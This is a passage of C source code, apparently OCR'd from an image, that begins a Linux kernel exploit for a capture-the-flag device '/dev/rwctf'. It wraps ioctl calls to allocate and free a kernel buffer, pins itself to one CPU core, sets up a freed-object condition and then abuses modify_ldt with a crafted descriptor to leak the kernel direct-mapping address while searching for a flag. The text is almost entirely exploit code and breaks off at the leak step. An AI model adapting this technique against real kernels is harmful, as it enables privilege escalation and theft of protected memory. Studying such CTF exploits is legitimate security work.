 ```c

void alloc(uint32_t idx, uint32_t size, void *buf)
{
    struct node n = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(dev_fd, 0xDEADBEEF, &n);
}

void del(uint32_t idx)
{
    struct node n = {
        .idx = idx,
    };

    ioctl(dev_fd, 0xC0DECAFE, &n);
}

int main(int argc, char **argv, char **envp)
{
    struct user_desc desc;
    uint64_t page_offset_base = 0xffff888000000000;
    uint64_t secondary_startup_64;
    uint64_t kernel_base = 0xffffffff81000000, kernel_offset;
    uint64_t search_addr, flag_addr = -1;
    uint64_t temp;
    uint64_t ldt_buf[0x10];
    char *buf;
    char flag[0x100];
    int pipe_fd[2];
    int retval;
    cpu_set_t cpu_set;

    /* bind to CPU core 0 */
    CPU_ZERO(&cpu_set);
    CPU_SET(0, &cpu_set);
    sched_setaffinity(0, sizeof(cpu_set), &cpu_set);

    dev_fd = open("/dev/rwctf", O_RDONLY);
    if (dev_fd < 0) {
        err_exit("FAILED to open the /dev/rwctf file!");
    }

    /* init descriptor info */
    desc.base_addr = 0xff0000;
    desc.entry_number = 0x8000 / 8;
    desc.limit = 0;
    desc.seg_32bit = 0;
    desc.contents = 0;
    desc.limit_in_pages = 0;
    desc.lm = 0;
    desc.read_exec_only = 0;
    desc.seg_not_present = 0;
    desc.useable = 0;

    alloc(0, 16, "arttnba3rat3bant");
    del(0);
    syscall(SYS_modify_ldt, 1, &desc, sizeof(desc));

    /* leak kernel direct mapping area by modify_ldt() */
```